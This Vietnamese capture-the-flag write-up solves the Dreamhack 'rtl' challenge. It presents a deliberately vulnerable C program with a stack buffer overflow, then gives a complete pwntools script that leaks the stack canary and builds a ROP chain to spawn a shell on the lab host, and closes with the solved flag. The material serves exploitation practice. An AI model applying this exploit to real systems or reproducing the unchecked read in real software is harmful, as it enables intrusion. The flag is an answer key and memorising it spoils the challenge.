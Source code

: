 **1. Tìm lỗi**

Ta có file source như sau:

```
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}

```

- chương trình có cho hàm `system` và chuỗi `/bin/sh` -> Tạo shell
- Biến buf được khai báo 0x30 byte nhưng cho phép nhập 0x100 byte cả 2 lần -> Có lỗi `bof`

**2. Ý tưởng**

Dùng lệnh `checksec` kiểm tra:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Vậy ở bước nhập đầu tiên thì nhập đến `canary` thì in được địa chỉ canary.
- Sau đó dùng gadget kết với với hàm `system` và chuỗi `/bin/sh` để tạo shell.

**3. Khai thác**

```
   0x0000000000400772 <+123>:   lea    rax,[rbp-0x40]
   0x0000000000400776 <+127>:   mov    edx,0x100
   0x000000000040077b <+132>:   mov    rsi,rax
   0x000000000040077e <+135>:   mov    edi,0x0
   0x0000000000400783 <+140>:   call   0x4005f0 <read@plt>
```

Ta thấy biến `buf` cách rbp 0x40 byte nến sẽ cách `canary` 0x40 - 0x8 byte. Và từ đó sẽ leak được địa chỉ canary

```
payload = b'a'*(0x40 - 0x8 + 0x1)
r.sendafter(b'Buf: ', payload)
r.recvuntil(b'a'*(0x40 - 0x8))
canary_fake = u64(r.recv(8))
log.info("canary fake:" + hex(canary_fake))
canary = canary_fake - 0x61
log.info("canary :" + hex(canary))
```

Sử dụng `ROPgadget` kiếm thanh ghi rdi và ret ta có:

```
pop_rdi = 0x0000000000400853
ret = 0x0000000000400285
```

Tiếp theo sử dụng kỹ thuật `ROP` để get shell

```
payload = b'a'*(0x40 - 0x8)
payload += p64(canary)
payload += b'a'*8
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rdi) + p64(next(exe.search(b'/bin/sh')))
payload += p64(ret)
payload += p64(exe.sym['system'])
r.sendafter(b'Buf: ', payload)
```

Ta có script như sau:

```
from pwn import *

exe = ELF('rtl', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 17418)

payload = b'a'*(0x40 - 0x8 + 0x1)
r.sendafter(b'Buf: ', payload)
r.recvuntil(b'a'*(0x40 - 0x8))
canary_fake = u64(r.recv(8))
log.info("canary fake:" + hex(canary_fake))
canary = canary_fake - 0x61
log.info("canary :" + hex(canary))

pop_rdi = 0x0000000000400853
ret = 0x0000000000400285
payload = b'a'*(0x40 - 0x8)
payload += p64(canary)
payload += b'a'*8
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rdi) + p64(next(exe.search(b'/bin/sh')))
payload += p64(ret)
payload += p64(exe.sym['system'])
r.sendafter(b'Buf: ', payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{13e0d0ddf0c71c0ac4410687c11e6b00}`